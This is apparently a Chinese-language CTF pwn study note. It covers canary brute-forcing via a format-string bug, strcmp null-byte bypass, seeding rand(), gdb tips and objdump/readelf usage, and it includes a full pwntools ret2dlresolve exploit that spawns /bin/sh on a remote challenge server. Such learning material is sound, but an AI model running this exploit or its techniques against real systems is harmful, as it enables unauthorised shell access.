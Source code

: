 # 解题相关
1、strcmp函数遇到 ‘\0’会直接终止判断，所以对于题目中的该函数可以使用这种方法绕过
2、绕过canary可以通过格式化字符串漏洞来爆破出canary的值方式
3、srand函数为设置随机数种子的函数，在某些会产生随机数的题目在中，可以尝试使用覆盖随机数种子，然后使用给定的libc函数去调用随机数种子，以获得确定的随机数（看exp相关的2）

# 调试相关
1、gdb当中，可以使用set指令设置某个内存的内容 
x/5i 0x12345678 查看某个地址的汇编代码
加上l选项 就可以加上行号
# exp相关
1、对于python3中16进制地址的获取和转化，可以通过以下代码来进行
```
canary = p.recv(16)
canary = canary.strip().decode()
canary = int(canary, 16)
```
2、如何使用libc中的函数（随机数为例子） 
```
from ctypes import * 
libc = cdll.LoadLibrary('libc.so.6') 
rand = libc.rand()
``` 
3、对于32位的dl_runtime_resolve题目，可以通过以下工具
```
from pwn import *
context.log_level = 'debug'
context.binary = elf = ELF('./pwn-200')

offset = 112
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
io = remote("61.147.171.105",52497)
io.recvuntil("\n")
payload = flat({offset:raw_rop, 256:dlresolve.payload})
io.sendline(payload)
io.interactive()
```
# 工具相关
1、查看二进制程序的相关信息
objdump -h SimpleSection.o（-x会有更多信息）
查看内部结构
readelf -S ./elf
查看内部结构
objdump -s -j .plt/.dynsym/.dynstr/.rel.plt ./elf (-s参数可以将内容以十六进制打印)
查看相关地址
size ./xxx.o
查看elf文件的代码段，数据段和bss段的长度
objdump -s -d xxx.o
查看各个段的内容，-d参数可以将所有包含指令的段反汇编
readelf -h SimpleSection.o
查看ELF文件
readelf -S SimpleSection.o
查看SimpleSection的段表结构
objdump的使用方法
```
-f 显示文件头信息
-D 反汇编所有section (-d反汇编特定section)
-h 显示目标文件各个section的头部摘要信息
-x 显示所有可用的头信息，包括符号表、重定位入口。-x 等价于 -a -f -h -r -t 同时指定。
-i 显示对于 -b 或者 -m 选项可用的架构和目标格式列表。
-r 显示文件的重定位入口。如果和-d或者-D一起使用，重定位部分以反汇编后的格式显示出来。
-R 显示文件的动态重定位入口，仅仅对于动态目标文件有意义，比如某些共享库。
-S 尽可能反汇编出源代码，尤其当编译的时候指定了-g这种调试参数时，效果比较明显。隐含了-d参数。
-t 显示文件的符号表入口。类似于nm -s提供的信息*
```
2、nm SimpleSection.o查看符号结果

![91c50c00fdcccee52c2d613a4ac62d60.png](../_resources/91c50c00fdcccee52c2d613a4ac62d60.png)
3、c++filt \_ZN1N1C4funcEi用来解析被修饰过的名称

![b350f8716ae72459b08240a5471f8a1b.png](../_resources/b350f8716ae72459b08240a5471f8a1b.png)